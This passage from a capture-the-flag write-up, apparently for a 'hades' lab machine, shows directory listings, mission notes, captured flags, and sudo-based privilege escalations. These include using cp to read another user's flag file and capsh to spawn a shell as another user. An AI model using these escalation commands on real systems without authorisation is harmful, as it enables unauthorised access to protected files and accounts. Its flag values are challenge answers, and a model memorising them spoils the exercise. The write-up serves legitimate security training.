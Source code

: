 ```plaintext title="ls -lah"
drwxr-x--- 2 root    ariadne 4.0K Jul 26  2023 .
drwxr-xr-x 1 root    root    4.0K Jul 26  2023 ..
-rw-r--r-- 1 ariadne ariadne  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 ariadne ariadne 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 ariadne ariadne  807 Apr 23  2023 .profile
-rw-r----- 1 root    ariadne   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root    ariadne  165 Jul 26  2023 mission.txt
```

```shell title="Exploit it"
ariadne@hades:~$ sudo -u arete /bin/cp /pwned/arete/flagz.txt /dev/stdout                
^qmrrbGUXLTqLFDyCDlx^
```

## User - arete

### flag - 08

```plaintext
^qmrrbGUXLTqLFDyCDlx^
```

### 任务目标

```plaintext title="mission.txt"
The user artemis allows us to use some binary on her behalf. Its a gift... 
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root  arete 4.0K Jul 26  2023 .
drwxr-xr-x 1 root  root  4.0K Jul 26  2023 ..
-rw-r--r-- 1 arete arete  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 arete arete 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 arete arete  807 Apr 23  2023 .profile
-rw-r----- 1 root  arete   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root  arete  227 Jul 26  2023 mission.txt
```

```shell title="Exploit it"
arete@hades:~$ sudo -u artemis /sbin/capsh --
artemis@hades:/pwned/arete$ cd
artemis@hades:~$ cat flagz.txt 
^SegGdzPgnNdGAmKjnsa^
```

## User - artemis

### flag - 09

```plaintext
^SegGdzPgnNdGAmKjnsa^
```
